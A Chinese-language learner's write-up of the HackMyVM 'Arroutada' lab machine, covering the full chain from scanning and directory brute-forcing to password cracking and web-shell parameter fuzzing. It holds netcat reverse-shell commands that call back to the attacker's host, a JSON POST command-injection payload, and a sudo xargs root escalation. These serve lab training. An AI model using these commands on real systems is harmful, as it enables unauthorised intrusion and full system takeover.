 ## 1、靶场搭建

PS：一楼使用的网络需要额外认证，不能采用桥接模式。

## 2、网络信息收集

```bash
sudo arp-scan -l -I eth0
#将扫描到的所有网络信息输出到net-info.txt中，并提取出所有活动设备的ip到ip-info.txt
sudo arp-scan -l > net-info.txt
awk '/^[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+/ {print $1}' net-info.txt > ip-info.txt
```

![image-20240620104841530](hmv.arroutada.assets/image-20240620104841530.png)

## 3、端口信息收集

```bash
#理论上不知道在哪个主机有开放端口的情况下应该将所有的主机都扫描，但是此处其实已知是靶机（192.168.6.166）有开放端口，因此只扫描靶机即可
#sudo nmap -sV -p- -Pn -iL ip-info.txt
sudo nmap -sV -p- -Pn 192.168.6.166
###
#-s代表scan,V代表version，对主机版本信息扫描，还有S为SYN扫描，T为TCP连接扫描，U为UDP连接扫描。
#-p-为扫描1-65535所有端口，默认情况为只扫描到1000端口
#-Pn，即ping no，nmap在端口扫描的时候会先发icmp，为了避免防火墙等设备阻止icmp请求导致nmap认为主机不在线（而且arp-scan已知该主机在线）。
###


###
##为什么使用arp-scan发现主机而不用imcp发现？
#arp在2.5层，因此无视基于ip过滤的防火墙，但是icmp是在3.5层。
###
```

![image-20240620104439637](hmv.arroutada.assets/image-20240620104439637.png)

## 4、路径扫描

```bash
#开放了端口80，http，可以通过暴力破解找到有哪些文件，从而分析出哪些文件可以被访问，哪些不允许被访问，根据收集的信息决定进一步渗透的方法。
sudo apt instasll gobuster
gobuster dir -u http://192.168.6.166/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,zip,bak,jpg,txt,html

###
#403表示有文件但无访问权限，301代表重定向，200代表成功访问。
#因此接下来看看能从200和301状态码的网页中获取到什么有用的信息
###
```

![image-20240620155517960](hmv.arroutada.assets/image-20240620155517960.png)

```bash
###
#首先访问index.html，为一个握拳且无有效信息的页面(除非它是个包含秘密数据的特殊图像)
#其次访问imgs和scout，imgs下即为index.html中的握拳图片，没啥用。scout中为一个提示，表明有重要文件存在于/scout/******/docs/下。这就可以想到采用模糊测试工具暴力破解。
###
```

<img src="hmv.arroutada.assets/image-20240620115521366.png" alt="image-20240620115521366" style="zoom: 25%;" />

<img src="hmv.arroutada.assets/image-20240620115528095.png" alt="image-20240620115528095" style="zoom:33%;" />

![image-20240620115459626](hmv.arroutada.assets/image-20240620115459626.png)

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirb/big.txt -u 'http://192.168.6.166/scout/FUZZ/docs/'  --hl 3
###
#--hc==404，hc即hide code，忽略404相应。FUZZ用户模糊测试，类似通配符。
###

###
#疑问：为什么要设置--hl 3，不看响应体长度为3的响应？？？有什么意义在这里？


一般404 都是这种响应 看了没啥意义。
404 Not Found
The requested URL was not found on this server.
###
```

![image-20240620155129301](hmv.arroutada.assets/image-20240620155129301.png)

```bash
#破解到了重要文件所在的路径，访问/scout/j2/docs/，发现存在两个有效文件（其它z***文件是什么用处，模拟存在好多文件？）。打开pass.txt发现一个用户名+密码，打开shellfile.ods发现需要输入密码，因此将其down下来尝试破解（有一个核心问题，如果不是教程，我怎么知道这个.ods文件的加密模式是可以被破解的？这个问题与文尾疑问相对应）。
wget http://192.168.6.166/scout/j2/docs/shellfile.ods
libreoffice2john shellfile.odf > key_hash
john -w=/usr/share/wordlists/rockyou.txt key_hash

###
#疑问：我并没有查到相关官方文档说.ods中默认采用PBKDF2进行密钥派生得到密钥并利用AES对称加密，然后用SHA-1散列派生的密钥，是因为我没有查到相关文档吗？如果.ods采用未知的加密模式怎么办？还是说libreoffice2john工具能自动识别.ods文件的加密模式？

他这个工具libreoffice2john就是提取加密文档的 hash，来进行后续工具密码破解的。
###
```

<img src="hmv.arroutada.assets/image-20240620142240114.png" alt="image-20240620142240114" style="zoom: 50%;" />

![image-20240620142256845](hmv.arroutada.assets/image-20240620142256845.png)

![image-20240620142319051](hmv.arroutada.assets/image-20240620142319051.png)



![image-20240620150501324](hmv.arroutada.assets/image-20240620150501324.png)

```bash
#破解得到.ods的密码为john11，输入后得到了一个新的文件路径，大概里thejabasshell.php是下一步的突破点。
#访问发现是个空白页面，然后爆破参数。
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 'http://192.168.6.166/thejabasshell.php?FUZZ=whoami' -fw 1

###
#疑问1：这里作者为什么会想到爆破html参数名？这是原因还是经验？空白html就要想到爆破参数名？


php一般都是？后面传参 
#疑问2：我理解这里FUZZ=whoami是根据返回的状态码确定正确的参数名，但为什么要设定参数值为whoami，如果靶机上的server将whoami这种单词进行了黑名单过滤，岂不是也会返回错误的状态码？没法控制单一变量，那岂不是试到了正确的参数名也可能会被认为是错误的参数名吗。


whoami 是常用查看当前用户名，一般情况不会过滤这个命令 没啥危害，如果没用也会试其他的。
###
```

<img src="hmv.arroutada.assets/image-20240620150742209.png" alt="image-20240620150742209" style="zoom:50%;" />![image-20240620151057367](hmv.arroutada.assets/image-20240620151057367.png)

<img src="hmv.arroutada.assets/image-20240620155051799.png" alt="image-20240620155051799" style="zoom:50%;" />

```bash
#爆破到了一个正确的参数名a，访问它得到了一个提示说突破点在参数b上（而且可以看出来a的参数值暂时并没有作为命令在靶机上执行）
#尝试给参数b一个参数值（b=ls)，发现还是提示突破点在参数b上。这里感觉就像是a是输入了一个用户名，需要b的参数值作为密码匹配成功才能看到某些信息。因此，继续爆破b的参数值。
ffuf -w /usr/share/wordlists/rockyou.txt -u 'http://192.168.6.166/thejabasshell.php?a=whoami&b=FUZZ' -fw 5
```



![image-20240620153112013](hmv.arroutada.assets/image-20240620153112013.png)

![image-20240620153513536](hmv.arroutada.assets/image-20240620153513536.png)

<img src="hmv.arroutada.assets/image-20240620154906918.png" alt="image-20240620154906918" style="zoom:50%;" />

```bash
#得到b的参数值为pass时返回了200状态码，尝试输入b=pass，返回了www-data。再试一下别的命令a=ls,发现也被执行了，基本证明a的值会在b的值为pass时作为命令执行
```

![image-20240620155701151](hmv.arroutada.assets/image-20240620155701151.png)

![image-20240620155734544](hmv.arroutada.assets/image-20240620155734544.png)

## 5、获取shell

```bash
#现有条件为命令可执行，且靶机仅开放了80端口，没有开放ssh的22端口，因此无法正向shell，只能反弹shell。先kali使用nc监听5555端口，然后给a的值设置为nc 192.168.6.149 5555 -e /bin/bash然后访问,拿到shell。
nc -lvp 5555
script /dev/null -c bash
```

![image-20240620162119592](hmv.arroutada.assets/image-20240620162119592.png)![image-20240620160820481]

![image-20240620162220315](hmv.arroutada.assets/image-20240620162220315.png)

![image-20240620163625456](hmv.arroutada.assets/image-20240620163625456.png)

```bash
#查看定时文件，发现没有
crontab -l
#查看suid命令和文件
find / -perm -u=s -type f 2>/dev/null
/usr/sbin/getcap -r / 2>/dev/null
#查看是否有其它未开放但监听的端口，有一个8000端口
ss -altp
###
#疑问1：查看定时文件、查找可利用suid命令和文件、查看监听但未开放端口，这是在任何场景下拿到普通权限后提权的思路吗，除此之外还有哪些思路？
一般都会先查看这些，搜集信息，为提权做准备。

#疑问2：为什么作者说没有可用suid命令和文件？这不是有吗？是无法被利用进行渗透吗？
可以看一下这些命令的作用，虽然是root权限，但使用的时候有些需要密码。

###
```

![image-20240620163957853](hmv.arroutada.assets/image-20240620163957853.png)

![image-20240620164939453](hmv.arroutada.assets/image-20240620164939453.png)

![image-20240620164954455](hmv.arroutada.assets/image-20240620164954455.png)

![image-20240620164510824](hmv.arroutada.assets/image-20240620164510824.png)

```bash
#本地命令行访问这个端口-用wget down下来html页面（我看另一个作者还用curl去尝试down，收集一下用于down的命令），必须要进入tmp目录下wget
wget http://lcoalhost:8000
cat index.html
###
#疑问1：为什么在tmp下才能wget成功？
html 权限不够。没有写权限
```

<img src="hmv.arroutada.assets/image-20240620165605371.png" alt="image-20240620165605371" style="zoom:50%;" />

<img src="hmv.arroutada.assets/image-20240620170355606.png" alt="image-20240620170355606" style="zoom:50%;" />

![image-20240620170626021](hmv.arroutada.assets/image-20240620170626021.png)

```bash
#得到一个Brainfuck编码，解码结果为all HackMyVM hackers!!且提示了一个文件priv.php，这个文件应该就是接下来的突破点。继续把他wget down下来查看内容
wget http://127.0.0.1:8000/priv.php
cat priv.php
```

![image-20240620170824511](hmv.arroutada.assets/image-20240620170824511.png)

<img src="hmv.arroutada.assets/image-20240620171628302.png" alt="image-20240620171628302" style="zoom:50%;" />

```bash
#$json接收传入的原始post数据，然后解析json给$data，json会将command参数的值传递给system()函数，system()函数执行这个值（命令），因此得到可以任意命令执行的利用链。
#在kali上监听6666端口，用wget以post形式提交表单
wget --post-data='{"command":"nc 192.168.6.149 6666 -e /bin/bash"}' http://127.0.0.1:8000/priv.php

#获取到drito用户的权限
```

![image-20240620172602324](hmv.arroutada.assets/image-20240620172602324.png)

<img src="hmv.arroutada.assets/image-20240620172648234.png" alt="image-20240620172648234" style="zoom:50%;" />

<img src="hmv.arroutada.assets/image-20240620172753030.png" alt="image-20240620172753030" style="zoom:50%;" />

## 6、获取root权限

```bash
#sudo -l发现xargs有root权限。
#https://gtfobins.github.io/gtfobins/xargs/#sudo中为利用xargs提权的方法（break out from restricted environments）
#仔细学习研究为什么能提权。

sudo xargs -a /dev/null sh
#获取root权限
```

<img src="hmv.arroutada.assets/image-20240620173031777.png" alt="image-20240620173031777" style="zoom:50%;" />

<img src="hmv.arroutada.assets/image-20240620173714828.png" alt="image-20240620173714828" style="zoom:50%;" />

```bash
###
#请教：请问有没有一些常用的好用的字典？或者推荐某个网站上有？或者推荐某个git上有？
https://github.com/shadowabi/S-BlastingDictionary
https://github.com/wwl012345/PasswordDic
github上比较多，这就两个例子，基本上还是靠自己使用的时候搜集。


#终极疑问：/scout/j2/docs下的pass.txt文件中的内容user:password有什么用？全文没有发现它被使用到。
这文件没啥用。


###
```

```bash
#PS：
#爆破文件目录和文件名
/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
/usr/share/wordlists/dirb/big.txt
/usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
#爆破密码
/usr/share/wordlists/rockyou.txt
```

